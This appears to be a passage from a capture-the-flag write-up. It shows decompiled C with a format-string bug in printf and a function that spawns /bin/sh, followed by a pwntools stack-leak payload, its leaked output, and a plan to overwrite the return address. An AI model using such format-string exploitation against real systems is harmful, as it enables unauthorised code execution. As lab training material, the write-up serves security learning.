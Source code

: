 ```c
        goto code_r0x00101332;
      }
    }
  }
  puts("Invalid choice");
code_r0x00101332:
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}



void print_flag(void)

{
  system("/bin/sh");
  return;
}
```

There is a printf vulerability:

```c
  char local_118 [264];
  fgets(local_118,0x100,stdin);
  puts("here is your choice");
  printf(local_118);
```

We can use printf to override return address to `print_flag`.

First step, we need to recover data on the stack:

```python
p.sendline(b"%lx," * 50)
```

Response:

```
55fa746ed2a0,0,7f4675aa28e0,0,
0,2400000,2,2c786c252c786c25,
2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,
2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,
2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,
2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,
2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,
2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,
a,0,0,0,
0,0,0,0,
7752254b33b4d400,7ffdb9c8b7b0,55fa682f8351,1,
7f46758e4ca8,7ffdb9c8b8b0,55fa682f8348,1682f7040,
7ffdb9c8b8c8,7ffdb9c8b8c8,
```
